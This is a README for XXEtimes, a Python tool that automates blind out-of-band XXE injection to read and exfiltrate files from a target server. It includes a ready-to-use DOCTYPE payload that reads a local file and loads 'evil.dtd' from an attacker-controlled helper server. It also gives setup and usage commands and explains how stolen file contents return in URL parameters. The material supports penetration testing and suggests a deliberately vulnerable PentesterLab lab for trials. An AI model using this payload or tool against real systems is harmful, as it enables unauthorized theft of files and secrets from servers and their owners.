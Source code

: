 # XXEtimes
XXEtimes is a self-contained PoC to make exploring and exfiltrating files through OOB XXE much quicker.

I come across blind XXE injection vulnerabilities quite a bit, and love using OOB techniques to read files and directory contents, but it's a very tedious process.

Usually it's a multi-step process that involves using Burp Suite Repeater to send the malicious request, a web server to serve up the crafted DTD file, and another listening server to capture the OOB HTTP request which contains file contents. And to change file or directory I have to manually modify the DTD and resend the request each time.

I got sick of the setup time and spinning up servers, so I wrote XXEtimes. Its aim is to be a self-contained tool to aid in data exfiltration once an OOB XXE injection has been discovered. It parses a request file from Burp, spins up a webserver, serves a DTD, and parses responses for file contents. It continually runs and lets you just type files or directories you want to exfiltrate.

See it in action here. I used it to browse home directories and find an unprotected key backup:

[![asciicast](https://asciinema.org/a/122903.png)](https://asciinema.org/a/122903?autoplay=1)

## Setting Up
```
git clone https://github.com/ropnop/xxetimes.git
cd xxetimes
pip install requests
python xxetimes.py
```

The script requires a request file. Once you have found an XXE injection in Burp, export the request file to txt. Add the following DOCTYPE declaration to the request:

```
<!DOCTYPE foo [
<!ENTITY % file SYSTEM "file://{targetFilename}">
<!ENTITY % dtd SYSTEM "http://{xxeHelperServerInterface}:{xxeHelperServerPort}/evil.dtd">
%dtd;]>
```

The special params in "{}" are necessary for XXEtimes to work. There is an example request file in the repo. This works with the deliberately vulnerable [PlayXXE challenge](https://pentesterlab.com/exercises/play_xxe) from Pentesterlab if you want to test it.

## Usage

```
$ python xxetimes.py -h
usage: xxetimes.py [-h] -f REQUESTFILE [-p PORT] [-t TARGETHOST]
                   [-l LISTENPORT] -i INTERFACE

Local File Explorer Using XXE DTD Entity Expansion

optional arguments:
  -h, --help            show this help message and exit
  -f REQUESTFILE, --requestFile REQUESTFILE
                        Vulnerable request file with {targetFilename},
                        {xxeHelperServerInterface}, and {xxeHelperServerPort}
                        marked
  -p PORT, --port PORT  Port on target host (eg 80, 443)
  -t TARGETHOST, --targetHost TARGETHOST
                        Override host header in request file
  -l LISTENPORT, --listenPort LISTENPORT
                        Port for local DTD helper server
  -i INTERFACE, --listenIP INTERFACE
                        Bind IP address for local DTD helper server
```

It will likely require customization and tweaking for each specific vulnerability, but as long as the locations `{targetFilename}`, `{xxeHelperServerInterface}` and `{xxeHelperServerPort}` are present it should work.

Once you have your request file created with the appropriate injection points marked, fire it up with:

`python xxetimes.py -f request.txt -i <IP address to listen on>`

After the server spins up, simply type in the file or directory you wish to request (note: if the file doesn't exist or you don't have permissions, it will fail silently and display nothing)

On the backend, XXEtimes is customizing the "evil.dtd." file to define the `file` entity for what you enter. It then sends the malicious request, listens for the request for 'evil.dtd', serves up `evil.dtd`, listens for the subsequent request which contains the file contents in a URL parameter, then decodes file contents and displays it on screen.

To shutdown gracefully, enter `Ctrl-C`.



## Testing it out
Since I didn't want to write an actually vulnerable server, I've been testing with the "Play XXE" challenge ISO located here. 

<https://pentesterlab.com/exercises/play_xxe/course>

It's a bootable ISO you can run locally if you want to test it. It is vulnerable to XXE on the main login page, and the example request should work out of the box on it (as long as the IP address is updated!)


## Future plans
- [ ] Support history and "up arrow" completion
- [ ] Save files locally once they're retrieved
- [ ] Support other OOB methods like FTP
